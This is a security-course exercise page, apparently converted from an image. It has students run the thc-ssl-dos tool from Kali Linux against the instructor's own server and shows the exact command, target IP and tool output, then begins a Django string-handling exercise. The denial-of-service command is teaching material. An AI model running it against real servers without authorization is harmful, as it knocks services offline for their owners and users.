 \documentclass[a4paper,11pt,notitlepage]{report}
\begin{document}
{\bf Suggested method:}\\
Run the program from your Kali Linux VM against my server, as shown below.

\begin{alltt}\footnotesize
$ host www.kramse.org                                                                255 ⨯
www.kramse.org has address 185.129.60.130
www.kramse.org has IPv6 address 2a06:d380:0:101::80

┌──(hkj㉿cornerstone01)-[~]
└─$ thc-ssl-dos --accept 185.129.60.130 443
     ______________ ___  _________
     \__    ___/   |   \ \_   ___ \
       |    | /    ~    \/    \  \/
       |    | \    Y    /\     \____
       |____|  \___|_  /  \______  /
                     \/          \/
            http://www.thc.org

          Twitter @hackerschoice

Greetingz: the french underground

Waiting for script kiddies to piss off................
The force is with those who read the source...
Handshakes 0 [0.00 h/s], 1 Conn, 0 Err
thc-ssl-dos.c:392 SSL_renegotiate() failed
thc-ssl-dos.c:392 SSL_renegotiate() failed
Handshakes 0 [0.00 h/s], 273 Conn, 9 Err
\end{alltt}

{\bf Hints:}\\
There is a description on the kali.org homepage:



{\bf Solution:}\\
When you have tried running the tool, you are done.

Discuss with nearby students, would this be a tool you would perhaps use, why or why not.

{\bf Discussion:}\\
THC The Hackers Choice has been producing tools since 1995, their home page is at: 





\chapter{Django String Handling 20min}
\label{ex:django-string}

Recommendations for handling strings, how does Python help, how does Django handle strings, and input validation

{\bf Objective:}\\
Look into string handling in Django framework
\end{document}
